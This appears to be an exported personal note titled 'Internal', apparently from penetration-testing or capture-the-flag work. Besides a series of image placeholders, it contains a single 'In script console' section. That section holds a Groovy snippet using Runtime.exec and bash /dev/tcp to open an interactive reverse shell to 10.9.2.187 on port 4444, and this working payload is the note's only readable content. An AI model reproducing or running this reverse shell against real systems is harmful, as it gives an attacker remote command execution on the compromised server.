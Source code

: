 # Internal
24 February 2022
03:43 PM

<img src="internal/media/image1.png"
style="width:5.425in;height:1.675in" />

<img src="internal/media/image2.png"
style="width:5.4in;height:0.49167in" />

<img src="internal/media/image3.png"
style="width:5.28333in;height:1.13333in" />

<img src="internal/media/image4.png"
style="width:5.40833in;height:1.425in" />

<img src="internal/media/image5.png"
style="width:5.6in;height:0.65833in" />

<img src="internal/media/image6.png"
style="width:5.53333in;height:1.85in" />

<img src="internal/media/image7.png"
style="width:5.20833in;height:0.425in" />

<img src="internal/media/image8.png"
style="width:5.21667in;height:0.16667in" />

<img src="internal/media/image9.png"
style="width:6.85833in;height:0.54167in" />

# *<u>In script console</u>*

r = Runtime.getRuntime()

p = r.exec(\["/bin/bash","-c","exec 5\<\>/dev/tcp/10.9.2.187/4444;cat
\<&5 \| while read line; do \\\$line 2\>&5 \>&5; done"\] as String\[\])

p.waitFor()

<img src="internal/media/image10.png"
style="width:6.59167in;height:1.35in" />
 
<img src="internal/media/image11.png"
style="width:4.69167in;height:1.53333in" />

<img src="internal/media/image12.png"
style="width:3.91667in;height:0.54167in" />
